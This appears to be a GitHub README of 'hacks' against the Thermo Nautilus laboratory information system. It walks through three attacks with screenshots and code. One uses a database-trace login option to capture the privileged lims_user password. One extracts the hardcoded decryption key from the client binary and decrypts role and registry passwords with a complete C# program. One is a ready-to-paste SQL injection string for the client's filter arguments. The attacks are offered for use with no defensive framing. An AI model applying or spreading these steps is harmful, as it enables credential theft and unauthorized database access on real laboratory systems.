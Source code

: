 # nautilus-hacks

## Getting lims_user password (#1)

Add a server with `TRACE` preceding the actual Database Type.  

![Server window with TRACE database type](img/01.jpg)

Make sure the "TRACE" part "sticks".  It might not if you create a new server entry, and you'll have to edit the properties. 
You'll know it is good to go when you see "TRACE" in the server list.

![Server list showing TRACE prefix](img/02.jpg)

Select the trace server and login.

![Login window with trace server selected](img/03.jpg)

The Database Trace window appears.  You can clear all the checkboxes and provide a log location for saving.

![Database trace window](img/04.jpg)

Once you click OK in the Database Trace window, you will be logged in and the Nautilus client will be logging.  
Log out immediately and close Nautilus.

Navigate to the location you saved your trace log.

![Windows explorer at log location](img/06.jpg)

Open the log and find the keys to the kingdom.  Good grief.

![Log file showing lims_user password](img/07.jpg)


## Getting lims_user password (#2)

Login (any user with lims_readonly) and run query:   

```sql
select lims_security.get_role_security from dual;
```

Will give back something like `H7y5bAD1IidlB1YqxVyusw==`, which is the encrypted password.

Open the .Net IL disassembler, ildasm.exe.  When Visual Studio is installed, ildasm can be found in a path such as `C:\Program Files (x86)\Microsoft SDKs\Windows\v10.0A\bin\NETFX 4.6.1 Tools`.

In ildasm, open NautilusRoleSecurity.exe, which is typically installed in `C:\Nautilus`.  When the exe has been loaded, select File > Dump.  The only required option is "Dump IL Code".  Open the dumped ".il" file with a text editor.  Search for "Vector" and/or "Key" and find the two private field values, like this:

```
.field static assembly literal string Key = "Nautilus"
.field static assembly literal string Vector = "Secret"
```

Make a note of the `Key` and `Vector` values.

Create a new C# console application.  Add `Thermo.Nautilus.BL.Services.dll` as a reference.  It can be found next to NautilusRoleSecurity.exe or next to Nautilus.exe.  Here is example code for the console application:

```csharp
using System;
using Thermo.Nautilus.BL.Services;

namespace DecryptNautilusPasswords
{
    class Program
    {
        static void Main(string[] args)
        {
            try 
            {
                if (args.Length < 3) throw new ArgumentException();
                
                var decrypted = string.Empty;
                var sym = new SymmCrypto();
                sym.Decrypt(args[0], args[1], args[2], out decrypted);
                Console.WriteLine(decrypted);
            }
            catch (Exception) 
            {
                Console.WriteLine("Failed to decrypt.  Try again, passing args in this order: 1.Key 2.Vector 3.EncryptedPassword");
            }
        }
    }
}

```

And here is how the example compiled executable would work:

```shell
> ExecutableName.exe Nautilus Secret H7y5bAD1IidlB1YqxVyusw==
secret123
```

The output is the decrypted password. (In this case, "secret123")

This same process works for encrypted values in the registry (BGP username, password at `HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Thermo\Nautilus\9.3\BGP#servername#instancename#x\ParameterX`).



## Get Nautilus to cough up unintended data using SQL injection

Go to a folder that uses a filter with a text argument.  For this example, there is a folder for finding a plate by its name.
The filter looks like this:

![Filter properties showing where statement](img/08.jpg)

Change the plate entity's view settings to show only the name.  This will make the SQL injection simpler:

![Explorer columns window for plate entity showing only Name column](img/09.jpg)

Refresh the filter.  In the filter arguments window, provide the SQL injection string as the text value.  
The injection string must close the substituted string with a `'` character, append a right paren, then `union` the 
query to inject.  The unioned select must have an ID value (can be `0`), then the column of
the info you want displayed *TWICE*, then a status column (using `'X'` here), then six string values (use `''`).  After the 
injected query, remember to add `--` to comment out the remainder of the hard coded SQL. For example, to get this plate
view to display the encrypted lims_role password, use the following as the text argument in the "Plate by name" filter:

```
') union SELECT 0, lims_security.get_role_security, lims_security.get_role_security,'X','','','','','','' from dual  -- 
```

Like so:

![Filter args window showing injected SQL value](img/10.jpg)

The result should be exactly what it is you wanted to see:

![Explorer window showing result of injected SQL](img/11.jpg)
